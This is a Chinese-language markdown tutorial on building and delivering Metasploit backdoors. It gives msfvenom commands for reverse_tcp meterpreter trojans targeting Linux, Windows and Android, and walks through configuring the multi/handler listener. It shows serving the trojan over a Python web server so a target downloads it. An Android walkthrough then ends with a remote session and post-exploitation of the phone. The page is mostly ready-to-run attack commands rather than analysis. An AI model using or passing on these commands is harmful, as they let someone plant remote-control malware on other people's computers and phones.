 # 整个流程
## 木马生成

1. 在root下, 生成后门
```markdown
# Linux 后门
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=攻击机的ip LPORT=设置一个没被占用的端口(默认4444) -f elf > shell.elf

# Windows后门
msfvenom -p windows/meterpreter_reverse_tcp LHOST=监控IP (攻击机ip)LPORT=监控端口(一个没被占用的端口) -e x86/shikata_ga_nai  -f exe -o  new.exe -i 5

# 安卓后门
msfvenom -p android/meterpreter/reverse_tcp LHOST=监控IP LPORT=监控端口 R>k.apk
```
> **注意:**
> **如果生成的木马权限不够, 请在root下, 终端中输入:**

```markdown
# chmod 777 木马的文件名
chmod 777 shell.elf
```
## 配置监控

1. 启动msf 终端内输入：
```markdown
msfconsole
```

2. 载入监控模块 msf中输入： 
```markdown
use exploit/multi/handler
```

3. 加载payload , 在msf终端中输入：
```markdown
# 这个payload 就是上方木马中设置的payload, 每个操作系统的payload都不一样.
set payload linux/x64/meterpreter/reverse_tcp
```

4. 配置payload msf终端中输入：
```markdown
options
```

5. 配置payload监控IP msf终端中输入： 
```markdown
set lhost 监控IP(攻击机的ip)
set lport 木马中设置的端口
```

6. 检查payload配置 msf终端中输入：
```markdown
show options
```

7. 执行监控 msf终端中输入：
```markdown
run 

# 直接输入exploit 也可以.
```
## 攻击利用
### 将木马上传到靶机 通过python创建一个简单web服务 
```markdown
python2 -m SimpleHTTPServer 80
```
> 这一步的目的就是让对方能够下载到我们生成的木马, 攻击机的ip就相当于一个网址了


1. 在靶机上执行木马 
2. 完成攻击利用

# 实例(Android)
## 准备

1. 一台不用的安卓手机
2. 有kali系统(自带 )


![image.png](https://cdn.nlark.com/yuque/0/2023/png/26140423/1673753545446-453d370b-b300-40f1-b011-e2b6fa2387ff.png#averageHue=%230b0706&clientId=ufaba6b11-0796-4&from=paste&height=250&id=LJoEn&originHeight=281&originWidth=687&originalType=binary&ratio=1&rotation=0&showTitle=false&size=24878&status=done&style=none&taskId=u664590f8-1240-4de9-9e6f-12144784b9d&title=&width=610.6666666666666)
## 生成木马
```markdown
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.128 LPORT=4444 R>k.apk
```
# 

## 启动msf
```markdown
msfconsole
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26140423/1673753719675-6bca3c0f-b0ab-4111-a9fb-def97e4cb8a5.png#averageHue=%23010100&clientId=ufaba6b11-0796-4&from=paste&height=43&id=u1f9f434a&originHeight=48&originWidth=447&originalType=binary&ratio=1&rotation=0&showTitle=false&size=988&status=done&style=none&taskId=u819e330b-2fd7-42ab-b5bb-02245e74c5e&title=&width=397.3333333333333)

## 使用模块
```markdown
use exploit/multi/handler
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26140423/1673753765430-a97b3411-7f8e-4e6f-acaa-83230540e502.png#averageHue=%230d0907&clientId=ufaba6b11-0796-4&from=paste&height=63&id=ue4b04d9e&originHeight=71&originWidth=575&originalType=binary&ratio=1&rotation=0&showTitle=false&size=7695&status=done&style=none&taskId=ud5269005-1f87-410d-8375-e49c33169fd&title=&width=511.1111111111111)

## 设置payload
下面的命令, 依次输入
```markdown
set payload android/meterpreter/reverse_tcp
set lhost 攻击机的ip
set lport 木马设置的port
options
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26140423/1673753935740-8d188560-aac3-4b97-b93d-1d2c113ca927.png#averageHue=%230e0907&clientId=ufaba6b11-0796-4&from=paste&height=139&id=u32f931ae&originHeight=156&originWidth=678&originalType=binary&ratio=1&rotation=0&showTitle=false&size=19597&status=done&style=none&taskId=u5832ae6a-99a9-4052-a6a6-0d730a1fdb0&title=&width=602.6666666666666)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26140423/1673753969318-04f7bf35-ca16-42c4-aadc-738750b86cc1.png#averageHue=%230e0605&clientId=ufaba6b11-0796-4&from=paste&height=249&id=u2b721036&originHeight=280&originWidth=878&originalType=binary&ratio=1&rotation=0&showTitle=false&size=15829&status=done&style=none&taskId=u5a9539bc-04bd-4508-ba0f-0e36d4848cd&title=&width=780.4444444444445)
:::warning
配置完成啦!
:::


## 开启网络传播, 让对方能下载我们的木马
1.
```markdown
python2 -m SimpleHTTPServer 80
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26140423/1673756815959-4844982d-e629-4a66-b301-764a470c7bf8.png#averageHue=%23090604&clientId=ufaba6b11-0796-4&from=paste&height=70&id=u6e57f980&originHeight=79&originWidth=693&originalType=binary&ratio=1&rotation=0&showTitle=false&size=9115&status=done&style=none&taskId=u8fbfccbc-9588-4ae1-a937-5a6a27fd387&title=&width=616)

2.打开手机浏览器, 访问自己攻击机的ip , 

![Screenshot_2023-01-15-12-33-37-03_439a3fec0400f89.png](https://cdn.nlark.com/yuque/0/2023/png/26140423/1673757362746-7134395b-6734-446d-adbe-b28d35abcdf6.png#averageHue=%23b2afaf&clientId=ufaba6b11-0796-4&from=drop&id=uaf73d426&originHeight=838&originWidth=734&originalType=binary&ratio=1&rotation=0&showTitle=false&size=82834&status=done&style=none&taskId=ue05e94ce-064f-473e-b0b3-d428d704a62&title=)
> 点击下载就可以


## 在 msf中输入
```markdown
run
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26140423/1673758218464-7b79416e-d6ad-4ac6-99ea-65db1d417abe.png#averageHue=%2331333c&clientId=ufaba6b11-0796-4&from=paste&height=47&id=u03371985&originHeight=53&originWidth=825&originalType=binary&ratio=1&rotation=0&showTitle=false&size=26070&status=done&style=none&taskId=ucde3e548-017f-482c-b7e7-c61c69089ae&title=&width=733.3333333333334)

> 可以进行手机的后渗透啦



 
